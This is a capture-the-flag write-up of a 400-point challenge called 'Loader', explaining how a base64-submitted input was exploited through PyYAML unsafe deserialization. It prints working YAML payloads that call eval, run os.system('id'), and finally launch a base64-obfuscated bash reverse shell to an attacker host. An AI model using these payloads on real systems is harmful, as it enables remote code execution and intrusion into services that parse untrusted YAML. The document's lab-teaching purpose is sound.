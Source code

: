 # Loader challenge Writeup : 

- Challenge Name : Loader

- Weight : 400 pts



TL;DR : Exploiting a Python De-Serialization leading to an RCE thanks To yaml/PyYaml.



This is the main challenge page "adminer loader" with a data submission form.

 ![gif here](https://raw.githubusercontent.com/TebbaaX/CTFs/main/HackerNewsBdarija-CTF-2022/loadder/loader/loadder_x.gif?token=GHSAT0AAAAAABTT5PBKXFRB2D3HCN5AH6JMYS6DYIA)




as you can see! you simply submit an input text and it get reflected/alerted.



looking under the hood we have this interesting js script that actually posts data on `api/load`, and after posting it! it gets alerted.

 ![gif here](https://raw.githubusercontent.com/TebbaaX/CTFs/main/HackerNewsBdarija-CTF-2022/loadder/loader/magic_behind.PNG?token=GHSAT0AAAAAABTT5PBLQKOWFT3YEZU5CLYGYS6DZBQ)

one more interesting thing is the `btoa()` js function that converts the input string to an base64. confirmed by intercepting the request on burp as shown.
the response also show an interesting server header indicating that this runs on py.

 ![gif here](https://raw.githubusercontent.com/TebbaaX/CTFs/main/HackerNewsBdarija-CTF-2022/loadder/loader/burp_2.PNG?token=GHSAT0AAAAAABTT5PBKYKRVP6QCZJV6PTIIYS6D2OQ)

Challenge hint mentioned a data format used by SOC Team leads and Threat hunters, after some time it was obviously yaml.


> .... (and) YAML is a human-readable data-serialization language. It is commonly used for configuration files and in applications where data is being stored...

spent sometime reading papers and references along with g0rchy ended up with constructing a "checkup payload" to check if we really about to solve this challenge. 



checkup payload looked like this : 

> `!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ '1+1' ]]]`

simple `!!python/object/new:tuple` to initiate a tuple since were running on YAML...,  `map()` to serve both the function and the iterable that will be "mapped" and `eval()` to check the legality of the python statement... and you know 1+1 :) .

![gif here](https://raw.githubusercontent.com/TebbaaX/CTFs/main/HackerNewsBdarija-CTF-2022/loadder/loader/2pic.PNG?token=GHSAT0AAAAAABTT5PBLCZN7BLXBWBDRYV2WYS6D3WQ)

seems like we are in the correct direction!


The second payload we did call python and tried to get at least the built-in python-id trace : 

> `!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "__import__('os').system('id')" ]]]`

Returned with the `os.system()` encoded exit value 0 that means success! well, that's great.

![gif here](https://raw.githubusercontent.com/TebbaaX/CTFs/main/HackerNewsBdarija-CTF-2022/loadder/loader/0.PNG?token=GHSAT0AAAAAABTT5PBKC4EECREKBIC4SE56YS6D44Q)

The last constructed payload is to get a bash rev shell

according to my teammate g0rchy in APTx1337 who likes keeping the team's work as based as possible we used base64 encoded bash reverse shell, and for the guys who can't handle based-ness you can use escaped quotes bash payloads!

the final payload looks like this : 


> ` !!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "__import__('os').system('echo c2ggLWkgPiYgL2Rldi90Y3AvJExIT1NULyRMUE9SVCAwPiYx|base64 -d|bash')" ]]]`

and...


![gif here](https://raw.githubusercontent.com/TebbaaX/CTFs/main/HackerNewsBdarija-CTF-2022/loadder/loader/sweet.PNG?token=GHSAT0AAAAAABTT5PBLFAR3AI75T44PH4CSYS6D5XQ)












it works! 

> `thnb{py7H0N_P4Ck4935_c4N_83_4_d4n93R}`

More about this that helped us solving the challenge do check the references.txt 
GG!
